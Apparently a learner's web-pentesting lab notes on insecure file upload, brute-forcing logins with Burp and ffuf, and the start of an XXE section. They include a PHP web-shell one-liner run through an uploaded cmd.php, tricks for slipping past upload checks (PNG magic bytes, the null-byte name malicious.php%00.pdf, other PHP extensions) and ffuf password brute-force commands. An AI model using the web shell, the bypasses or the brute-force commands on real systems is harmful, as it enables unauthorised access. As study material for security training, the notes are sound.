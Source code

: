 - We can use php command, {<?php system($_GET['cmd']); ?> } to provide parameters to the php file, with cmd = and the system will execute it
- After the file is uploaded, we can find the path, were it is stored and run the php file and provide the value for the parameter cmd:
	- `http://localhost/labs/uploads/cmd.php?cmd=whoami`

#### Insecure File Upload - Magic Bytes:

- https://www.thehacker.recipes/web/inputs/null-byte-injection (null byte attack)

- We can check the magic bytes of a file, using the command:
	- `file logo.png` or `head logo.png`
- In this attack, we keep the starting magic bytes of an png file and attach the php script for example:
	- PNG .....magic bytes data {<?php system($_GET['cmd']); ?>}
	- As the application is checking with the magic bytes to determine the file type, we will be using this technic to bypass the upload check, and uploading as a php file
- If the checks is being done using the file extension we provide in the filename, we can use the null byte attack to skip the extension
	- `malicious.php%00.pdf`
- We can use other php extensions, if the application is blocking only php, rather than only allowing jpg and png, we can google 'vaild php file extensions' and use of that and see if the upload still works

#### Attacking Authentication - Brute Force:

wordlists path: `/usr/share/seclists/SecLists-master/Passwords/....`

-  We can use intruder in burp suite to brute force the password and provide the wordlists from the seclists/Passwords path and use the "xato-net-10-million-passwords-10000.txt" wordlists and run the attack, as burp suite is throttled it will take some time to complete, once it is completed, we can filter out the results with the content size and check for any difference.
- We can also use ffuf to brute force:
	- `ffuf -request req.txt -request-proto http -w /usr/share/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`
	- req.txt - this file contains the POST request and in the password field we will provide the FUZZ keyword
	- -request-proto - this is the request protocol, here we are using http
	- -w - wordlist
	- -fs  - filter size, if we know the content size of incorrect passwords, we can use that to filter out those and find the entry with different size, to find the actual password
- If we have 2 fields to FUZZ like username and password, in the POST request, we can provide the FUZZ words such as Username=FUZZUSER and Password=FUZZPASS.
	- While running ffuf, we can provide the below command:
		- Ex: `fuff -request teashop.txt -request-proto http -mode clusterbomb -w pass.txt:FUZZPASS -w /usr/share/seclists/SecLists-master/Usernames/top-usernames-shortlist.txt:FUZZUSER -fs 3376`
			- We can also use -mc 302 ( This is for filtering the response code in ffuf.)
			- -fc is for filtering with content length
			- -request-proto it should be http for local fuzzing and https for the web page
		

#### XXE - External Entities Injection:

XXE, or XML External Entity, is a type of security vulnerability that occurs in XML parsers. It allows an attacker to interfere with the processing of XML data by including malicious external entities. This can lead to various issues, such as:
